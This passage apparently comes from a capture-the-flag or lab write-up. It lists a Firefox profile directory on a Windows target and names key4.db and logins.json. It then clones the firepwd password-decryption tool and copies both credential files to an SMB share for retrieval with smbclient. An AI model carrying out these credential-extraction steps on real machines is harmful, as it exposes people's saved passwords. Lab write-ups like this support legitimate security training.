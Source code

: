 ```
05/14/2020 10:34 PM 39,565 extensions.json
05/14/2020 10:45 PM 5,242,880 favicons.sqlite
05/14/2020 10:39 PM 196,608 formhistory.sqlite
04/21/2020 10:50 PM <DIR> gmp-gmpopenh264
04/21/2020 10:50 PM <DIR> gmp-widevinecdm
04/21/2020 05:00 PM 540 handlers.json
04/21/2020 05:02 PM 294,912 key4.db
05/14/2020 10:43 PM 600 logins.json
04/21/2020 05:00 PM <DIR> minidumps
05/14/2020 10:23 PM 0 parent.lock
05/14/2020 10:25 PM 98,304 permissions.sqlite
04/21/2020 05:00 PM 506 pkcs11.txt
05/14/2020 10:45 PM 5,242,880 places.sqlite
05/14/2020 10:45 PM 11,096 prefs.js
05/14/2020 10:45 PM 65,536 protections.sqlite
05/14/2020 10:45 PM <DIR> saved-telemetry-pings
05/14/2020 10:23 PM 2,715 search.json.mozlz4
05/14/2020 10:45 PM 0 SecurityPreloadState.txt
04/21/2020 10:50 PM <DIR> security_state
05/14/2020 10:45 PM 288 sessionCheckpoints.json
05/14/2020 10:45 PM <DIR> sessionstore-backups
05/14/2020 10:45 PM 12,889 sessionstore.jsonlz4
04/21/2020 05:00 PM 18 shield-preference-experiments.json
05/14/2020 10:45 PM 1,357 SiteSecurityServiceState.txt
04/21/2020 05:00 PM <DIR> storage
05/14/2020 10:45 PM 4,096 storage.sqlite
04/21/2020 05:00 PM 50 times.json
05/14/2020 10:45 PM 0 TRRBlacklist.txt
04/21/2020 05:00 PM <DIR> weave
04/21/2020 05:02 PM 98,304 webappsstore.sqlite
05/14/2020 10:45 PM 140 xulstore.json
```

As seen, we got a `key4.db` and `logins.json` file, investigating through internet, we find a python script that let us retrieve the passwords hidden on those files, it is called `firepwd`, let's get it:

```
git clone https://github.com/lclevy/firepwd.git
```


We need a way to get those files, we can either download `netcat` into the windows machine which is the slowest path, or copy the two files into `C:\Users\Share` and use smbclient to get them:

```
copy key4.db C:\Users\Share\key4.db
copy logins.json C:\Users\Share\logins.json
```

Now, we can get them in `smbclient`:

![Pasted image 20250530174002.png](../../IMAGES/Pasted%20image%2020250530174002.png)
